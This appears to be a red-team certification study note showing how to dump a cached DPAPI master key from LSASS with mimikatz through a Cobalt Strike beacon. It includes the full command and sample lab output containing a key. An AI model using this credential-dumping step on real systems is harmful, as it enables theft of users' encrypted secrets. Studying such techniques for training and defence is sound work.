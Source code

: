 
This method is only possible if you have local admin access on the machine and if the key is cached in LSASS.  It will not be in the cache if the user has not recently accessed/decrypted the credential.

## 🖊️ via Cobalt Strike

```
beacon> mimikatz !sekurlsa::dpapi

Authentication Id : 0 ; 1075454 (00000000:001068fe)
Session           : RemoteInteractive from 2
User Name         : bfarmer
Domain            : DEV
Logon Server      : DC-2
Logon Time        : 9/6/2022 9:09:54 AM
SID               : S-1-5-21-569305411-121244042-2357301523-1104
	 [00000000]
	 * GUID      :	{bfc5090d-22fe-4058-8953-47f6882f549e}
	 * Time      :	9/6/2022 11:27:44 AM
	 * MasterKey :	8d15395a4bd40a61d5eb6e526c552f598a398d530ecc2f5387e07605eeab6e3b4ab440d85fc8c4368e0a7ee130761dc407a2c4d58fcd3bd3881fa4371f19c214
	 * sha1(key) :	897f7bf129e6a898ff4e20e9789009d5385be1f3

```  

We can see that the GUID (encrypted master key) matches what we are looking for, so the key `8d1539[...]19c214` is the one we need.


## 📔 Description

- 

##  📗 Action to perform 


### ⚠ Opsec




### Properties
---
📆 created   {{18-02-2024}} 12:01
🏷️ tags: #redteam #crto 

---


